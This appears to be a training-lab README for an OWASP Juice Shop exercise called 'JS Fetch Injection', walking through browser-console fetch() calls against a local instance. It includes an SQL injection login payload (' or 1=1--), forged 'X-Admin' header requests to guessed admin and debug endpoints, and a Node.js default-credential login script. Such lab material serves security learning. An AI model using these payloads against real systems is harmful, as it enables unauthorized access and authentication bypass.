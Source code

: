 📁 /Method-14_JS-Fetch-Injection/
🧠 Challenge Context
In OWASP Juice Shop, certain JavaScript files invoke internal API endpoints via fetch() calls. These calls can sometimes be manipulated (or injected) through browser developer tools to bypass client-side restrictions or tamper with the request payload.

The goal here is to intercept or replicate a vulnerable fetch() call, tamper with it, and observe server behavior — potentially triggering an internal or unauthorized functionality.

📄 README.md
markdown
Copy code
# 🍯 Method-14: JS Fetch Injection

## 🎯 Objective
Exploit a `fetch()`-based JavaScript request to gain access to internal functionality or trigger a vulnerable path by injecting into the `fetch()` method. This method focuses on understanding how the browser handles JavaScript fetch calls, and how we can hijack or replicate these requests to exploit vulnerabilities.

---

## 🧠 Technical Strategy

The `fetch()` API in JavaScript is used to make asynchronous HTTP requests. It is often seen in Single Page Applications (SPA) like Juice Shop to perform dynamic requests to internal API routes.

When a developer misuses the fetch call or doesn’t properly sanitize the request or protect the API endpoint (e.g., by omitting authorization headers or CSRF protections), it opens up potential for **Fetch Injection** — where an attacker can intercept and replay (or forge) fetch calls to access unauthorized data or perform actions.

In this challenge, we will:
- Discover a vulnerable fetch call.
- Hijack it via browser console or clone it.
- Modify request parameters or endpoint.
- Analyze backend behavior.

---

## 📌 Prerequisites
- Running OWASP Juice Shop locally or on a VM
- Browser with Developer Tools (Chrome preferred)
- Familiarity with JavaScript console and HTTP request structure

---

## 🧪 Step-by-Step Execution

### 🔹 Step 1: Open Developer Tools and Observe JS Fetch Calls
- Open Juice Shop in your browser: `http://localhost:3000`
- Press `F12` or `Ctrl+Shift+I` to open Developer Tools
- Go to the **Network** tab
- Filter by **XHR** (XMLHttpRequest) or **Fetch** to isolate JavaScript network calls

📌 You are looking for calls like:
GET /rest/products/search?q=apple

makefile
Copy code
or:
POST /rest/basket/...

yaml
Copy code

These are internal API routes triggered by `fetch()` from the front-end JavaScript files.

---

### 🔹 Step 2: Identify the Fetch Function via JavaScript Console

Go to the **Console** tab and try to locate global fetch calls:
```js
fetch
Then list all functions calling fetch:

js
Copy code
Object.getOwnPropertyNames(window).filter(prop => {
  try {
    return typeof window[prop] === 'function' && window[prop].toString().includes('fetch');
  } catch (e) { return false; }
})
🔍 Why this matters?
We're checking which JavaScript functions use fetch internally. If they're poorly protected, we can reuse or manipulate them.

🔹 Step 3: Hijack or Replay a Fetch Call
Let’s simulate a new fetch request via the browser console to interact directly with a backend API:

js
Copy code
fetch('/rest/user/login', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json'
  },
  body: JSON.stringify({
    email: "' or 1=1--",
    password: "random"
  })
}).then(res => res.json()).then(console.log)
🔧 What’s happening technically?

We are simulating a login request with an SQL injection payload.

The fetch() method creates a POST request to /rest/user/login.

The response is JSON and will be logged.

🔹 Step 4: Locate Actual JS File Where Fetch Exists
Go to Sources tab → Look for main.*.js

Press Ctrl+F → Search for .fetch(

You’ll find something like:

js
Copy code
window.fetch("/api/admin/dashboard", {...})
📌 Deobfuscate if needed using Prettier or run:

bash
Copy code
js-beautify main.12345.js -r
🔹 Step 5: Modify Fetch Parameters & Inject Payloads
In the console, replicate and modify this call:

js
Copy code
fetch('/api/scoreboard', {
  method: 'GET'
}).then(res => res.json()).then(console.log)
Or send crafted headers:

js
Copy code
fetch('/api/debug', {
  method: 'GET',
  headers: {
    'X-Admin': 'true'
  }
}).then(res => res.text()).then(console.log)
🛡️ Why this works:

Some internal APIs may be accessible only with specific headers.

fetch() allows us to add custom headers.

If endpoint lacks access controls (ACL, auth tokens), we gain unauthorized access.

🔹 Step 6: Observe Network Tab for Backend Behavior
Watch for HTTP Status Codes:

200 OK: success

403 Forbidden: protected

401 Unauthorized: needs credentials

Review the Response Body — contains clues or flags.

🔹 Step 7: Automation (Optional)
Use Node.js to automate:

js
Copy code
const fetch = require('node-fetch');
fetch('http://localhost:3000/rest/user/login', {
  method: 'POST',
  headers: { 'Content-Type': 'application/json' },
  body: JSON.stringify({ email: 'admin@juice-sh.op', password: 'admin123' })
}).then(res => res.json()).then(console.log);
🧠 Why This Method?
Fetch is widely used in front-end JavaScript; it's a common attack surface.

Poorly designed apps may expose internal APIs without CSRF, token auth, or origin verification.

This method mimics real-world API tampering and logic abuse often seen in bug bounties.

💡 Key Concepts Explained
Term	Meaning
fetch()	JavaScript API to make HTTP requests
API Endpoint	Backend URL hit by front-end code
Headers	Metadata sent with HTTP request
Injection	Injecting malicious input into trusted contexts
Auth Bypass	Bypassing authentication by simulating backend calls
XHR	XMLHttpRequest — older async method before fetch
SPA	Single Page Application — dynamic JS-driven frontend

🧾 Final Deliverables
✅ Screenshot of injected fetch call

✅ Capture response with data leak / internal info

✅ Write PoC in console and/or Node.js

✅ Document the endpoint, method, headers, and response

📁 Suggested File Structure
pgsql
Copy code
Method-14_JS-Fetch-Injection/
├── README.md
├── TODO.md
├── screenshots/
│   ├── fetch-response.png
│   └── debug-api-access.png
└── PoC/
    └── injected-fetch.js
pgsql
Copy code
